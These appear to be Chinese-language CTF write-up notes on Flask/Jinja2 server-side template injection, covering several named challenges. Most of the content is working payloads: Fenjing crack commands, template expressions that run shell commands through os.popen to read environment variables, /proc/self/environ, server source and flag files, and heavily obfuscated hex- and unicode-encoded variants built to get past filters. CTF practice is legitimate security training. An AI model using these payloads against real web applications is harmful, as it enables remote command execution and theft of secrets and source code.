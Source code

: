 # 先考虑Fenjing一把梭

## [Flask]SSTI

```
python -m fenjing crack --method GET --inputs name --url 'http://node5.buuoj.cn:28083'
```

```
{{cycler.next.__globals__.__builtins__.__import__('os').popen('env').read()}}
```

![image-20240716010107060](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240716010107060.png)



## [第三章 web进阶]SSTI

```
python -m fenjing crack --method GET --inputs password --url 'http://b7823c99-0f4a-4a3f-946f-c01c52459482.node5.buuoj.cn:81/'
```

```
{{cycler.next.__globals__.__builtins__.__import__('os').popen('cat /app/server.py').read()}}
```

![image-20240716011159944](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240716011159944.png)

```
{{''.__class__.__base__.__subclasses__()[177].__init__.__globals__["__builtins__"].eval('__import__("os").popen("cat /proc/self/environ").read()')}}
```

```
{{''.__class__.__base__.__subclasses__()[177].__init__.__globals__["__builtins__"].eval('__import__("os").popen("cat /app/server.py").read()')}}
```



## DownUnderCTF 2024 [web] Parrot the Emu

[DownUnderCTF 2024 | Cook1e (p-pratik.github.io)](https://p-pratik.github.io/posts/ductf'24/)

[Server Side Template Injection (SSTI) In Flask/Jinja2 (payatu.com)](https://payatu.com/blog/server-side-template-injectionssti/)

在环境变量env中找到flag

```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls /').read()}}
```

fenjing得到的payload：

```
python -m fenjing crack --method POST --inputs user_input --url 'https://web-parrot-the-emu-4c2d0c693847.2024.ductf.dev/'
```

```
{{cycler.next.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

![image-20240716005756767](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240716005756767.png)

## EasySSTI

[【Web】Dest0g3 520迎新赛 题解(全)_[dest0g3 520迎新赛\]pharpop-CSDN博客](https://blog.csdn.net/uuzeray/article/details/137777759)

```
{%set%0aid=dict(ind=a,ex=a)|join%}{%set%0app=dict(po=a,p=a)|join%}{%set%0ann=dict(n=a)|join%}{%set%0aenv=dict(env=a)|join%}{%set%0appe=dict(po=a,pen=a)|join%}{%set%0att=dict(t=a)|join%}{%set%0agt=dict(ge=a,t=a)|join%}{%set%0aff=dict(f=a)|join%}{%set%0aooqq=dict(o=a,s=a)|join%}{%set%0afive=(lipsum|string|list)|attr(id)(tt)%}{%set%0ard=dict(re=a,ad=a)|join%}{%set%0athree=(lipsum|string|list)|attr(id)(nn)%}{%set%0aone=(lipsum|string|list)|attr(id)(ff)%}{%set%0ashiba=five*five-three-three-one%}{%set%0axiahuaxian=(lipsum|string|list)|attr(pp)(shiba)%}{%set%0agb=(xiahuaxian,xiahuaxian,dict(glob=a,als=a)|join,xiahuaxian,xiahuaxian)|join%}{%set%0abin=(xiahuaxian,xiahuaxian,dict(built=a,ins=a)|join,xiahuaxian,xiahuaxian)|join%}{%set%0aini=(xiahuaxian,xiahuaxian,dict(in=a,it=a)|join,xiahuaxian,xiahuaxian)|join%}{%set%0achcr=(lipsum|attr(gb))|attr(gt)(bin)%}{{(lipsum|attr(gb))|attr(gt)(ooqq)|attr(ppe)(env)|attr(rd)()}}
```

![image-20240716004841315](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240716004841315.png)

## [pasecactf_2019]flask_ssti

找可用类脚本：

```
import json

a = """
"""

num = 0
allList = []

result = ""
for i in a:
    if i == ">":
        result += i
        allList.append(result)
        result = ""
    elif i == "\n" or i == ",":
        continue
    else:
        result += i

for k, v in enumerate(allList):
    if "os._wrap_close" in v:
        print(str(k) + "--->" + v)

```

![image-20240716013251366](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240716013251366.png)

```
{{()["\x5F\x5Fclass\x5F\x5F"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[91]["get\x5Fdata"](0, "/proc/self/fd/3")}}
```

## [NewStarCTF 公开赛赛道]BabySSTI_One Two Three

命令执行：

```
tail /fl**
```

```
{{cycler.next.__globals__.__builtins__.__import__('os').popen('tail /fl**').read()}}
```

```
{%set       ta='\x74\x61\x69\x6c\x20\x2f\x66\x6c\x2a\x2a'%}{{cycler.next['__g''lobals__']['__b''uiltins__'].__import__('os')['p''open'](ta).read()}}
```

![image-20240716020308261](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240716020308261.png)

将 _ 16进制编码:

```
http://53d96c09-d564-4c54-9c4f-3c3454c40527.node5.buuoj.cn:81/?name=payload%EF%BC%9A?name={{[][%27\x5f\x5fcl%27%27ass\x5f\x5f%27][%27\x5f\x5fba%27%27se\x5f\x5f%27][%27\x5f\x5fsubc%27%27lasses\x5f\x5f%27]()[117][%27\x5f\x5fin%27%27it\x5f\x5f%27][%27\x5f\x5fglo%27%27bals\x5f\x5f%27][%27po%27%27pen%27](%27\u0063\u0061\u0074\u0020\u002f\u0066\u006c\u0061\u0067\u005f\u0069\u006e\u005f\u0068\u0033\u0072\u0033\u005f\u0035\u0032\u0064\u0061\u0061\u0064%27).read()}}
```

`
